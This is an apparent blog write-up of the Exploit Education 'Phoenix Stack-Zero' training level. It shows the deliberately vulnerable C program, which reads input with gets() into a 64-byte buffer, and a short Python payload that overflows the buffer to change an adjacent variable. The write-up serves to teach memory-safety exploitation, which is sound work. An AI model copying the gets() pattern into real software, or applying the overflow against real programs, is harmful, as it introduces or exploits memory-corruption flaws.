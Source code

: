 ```yaml
---
title: Exploit Education > Phoenix > Stack-Zero
date: '2021-09-20'
draft: false
--- 
```


Stack-Zero consists of the following source code:

````
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
````

Looking at the file, we can see that the code uses the vulnerable `gets` function. It copies all input from STDIN to the buffer without checking the input's size first. If we provide a string that is larger in the number of characters than the size of the allocated buffer, we can overwrite values in memory that come after it. 

Since `buffer` is of type `char[64]`, we can write 64 chars into stdin to 'pad' the input. After padding, we can then overwrite whatever comes after `buffer`, in this case `changeme`. Since writing and counting out 64 characters is a bit troublesome in `qemu`, we write a quick python file that does what we want.

``` 
# stack-zero.py

padding = '0' * 64
changeme = '\x1'

print(padding + changeme)
```

Now, since `stack-zero.c` wants its input via stdin and not as a command line argument, we pipe the input into it: `python3 stack-zero.py | ./stack-zero`. Doing this prints the message

```
> Well done, the 'changeme' variable has been changed!
```

meaning that we solved our first task!

